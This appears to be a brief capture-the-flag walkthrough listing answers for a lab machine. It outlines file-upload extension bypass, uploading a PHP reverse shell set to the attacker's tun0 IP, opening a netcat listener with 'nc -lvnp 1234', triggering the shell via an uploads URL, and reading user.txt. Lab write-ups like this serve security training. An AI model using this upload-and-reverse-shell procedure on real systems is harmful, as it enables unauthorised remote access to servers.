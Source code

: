1) just brute force different extensions untill you find it
2) follow the guide
3) follow the guide, but you can just guess the extension
4) get the PHP reverse shell and edit it so that the IP is your tun0 IP
upload the file
run nc -lvnp 1234
then go to http:IP:3333/internal/uploads/FILENAME.phtml
5) cd home
ls
look at the username
6) cd bill
cat user.txt